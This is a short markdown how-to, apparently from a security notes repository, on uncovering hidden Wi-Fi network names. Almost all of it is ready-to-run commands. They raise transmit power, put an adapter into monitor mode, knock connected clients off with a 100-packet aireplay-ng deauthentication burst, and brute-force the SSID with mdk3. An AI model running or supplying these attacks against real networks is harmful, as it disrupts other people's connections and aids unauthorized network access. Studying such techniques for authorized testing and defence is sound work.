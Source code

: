 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
airmon-ng check kill
```
Start monitor mode:
```
airmon-ng start wlan1
```
Save what's out there and save to a file:
```
airodump-ng wlan1mon --band agp -w dump
```
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name.
Run airodump live to see ESSID update:
```
airodump-ng wlan1mon --band agp
```
Deauth target client MAC (`-c`) with AP MAC (`-a`)  (found in dump):
```
aireplay-ng -0 100 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```

## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
